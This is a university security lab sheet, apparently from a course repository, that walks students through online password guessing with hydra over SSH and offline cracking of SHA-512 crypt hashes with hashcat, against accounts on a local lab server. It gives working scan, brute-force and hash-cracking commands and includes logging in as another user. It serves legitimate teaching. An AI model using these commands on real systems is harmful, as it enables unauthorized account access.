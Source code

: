 # **Sigurnost računala i podataka** <!-- omit in toc -->

- [Lab 6: Online and Offline Password Guessing](#lab-6-online-and-offline-password-guessing)
  - [Online Password Guessing](#online-password-guessing)
  - [Offline Password Guessing](#offline-password-guessing)

## Lab 6: Online and Offline Password Guessing

### Online Password Guessing

1. Open bash shell in WSL on your local Windows machine.
2. Check that you can reach the lab server by pinging it.
    
    ```bash
    ping challenges.local
    ```
    
3. Install `nmap` application. In the bash shell execute the following commands.
    
    ```bash
    sudo apt-get update
    sudo apt-get install nmap
    
    # Test it
    nmap
    ```
    
    Try to understand what is `nmap` used for (Google it).
    
4. Next, run the following command.
    
    ```bash
    nmap -v 10.0.15.0/28
    ```
    
    Comment the results.
    
5. Try to open a remote shell on a dedicated machine. Use `ssh` client from your local shell as shown below:
    
    ```bash
    # ssh <username>@<your hostname>
    # (e.g., for username "doe_john", the hostname will be "doejohn.local") 
    ssh doe_john@doejohn.local
    ```
    
6. Install `hydra` application. Get to know it. Now, try to perform an **online password guessing attack** against your account. You know the following information about the used password:
    - it is comprised of lowercase letters
    - its length between 4 and 6 characters
    
    **Q1:** Estimate the password space.
    
    ```bash
    # hydra -l <username> -x 4:6:a <your IP address or hostname> -V -t 1 ssh
    hydra -l doe_john -x 4:6:a doejohn.local -V -t 1 ssh
    ```
    
    **Q2:** Using the output produced by `hydra` try to estimate your effort, that is how long it would take, on average, before you succeed. You can also try to play with parameter `-t` (**IMPORTANT:** Test values 2, 3, 4 but please do not exaggerate to avoid crushing the server).
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
7. Get the dictionary from [http://challenges.local](http://challenges.local) as follows (please mind the **group ID**).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
8. Finally, use `hydra` with the dictionary as shown below (IMPORTANT: use `dictionary_online.txt`).
    
    ```bash
    # hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt <your IP address or hostname> -V -t 4 ssh
    hydra -l doe_john -P dictionary/g1/dictionary_online.txt doejohn.local -V -t 4 ssh
    ```
    
9. Try to login to your machine using the discovered password. Locate password hashes, select one account (different from your own) and try to learn the corresponding password using **offline password guessing** attack as outlined in the sequel.

### Offline Password Guessing

1. For this task, use `hashcat` tool. Install it on your local machine as follows.
    
    ```bash
    sudo apt-get install hashcat
    
    # Test it
    hashcat
    ```
    
2. Save the password hash obtained in the previous task into a file. To make this step somewhat easier, open the present folder in Visual Studio Code by running the following command.
    
    ```bash
    code .
    ```
    
3. Start offline guessing attack by executing the following command. As in the previous task you know the following about the password:
    - it is comprised of lowercase letters
    - its length is exactly 6 characters
    
    ```bash
    # hashcat --force -m 1800 -a 3 <password_hash_file> ?l?l?l?l?l?l --status --status-timer 10
    hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
    ```
    
    **Q1:** Estimate the password space.
    
    **Q2:** Using the output produced by `hashcat` try to estimate your effort, that is how long it would take, on average, before you succeed.
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
4. If the attack from the previous step is not feasible approach, try a dictionary-based guessing attack (**IMPORTANT:** use `dictionary_offline.txt`). 
    
    As before you can get the dictionary by executing the following in the local (WSL) bash shell (in the same directory where you stored the password hash file).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
    Now start `hashcat` using the following command.
    
    ```bash
    # hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10
    hashcat --force -m 1800 -a 0 password_hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
    ```
    
5. Test validity of the cracked password by logging into the remote machine as follows.
    
    ```bash
    # ssh <username>@<your IP address or hostname>
    ssh freddie_mercury@doejohn.local
    ```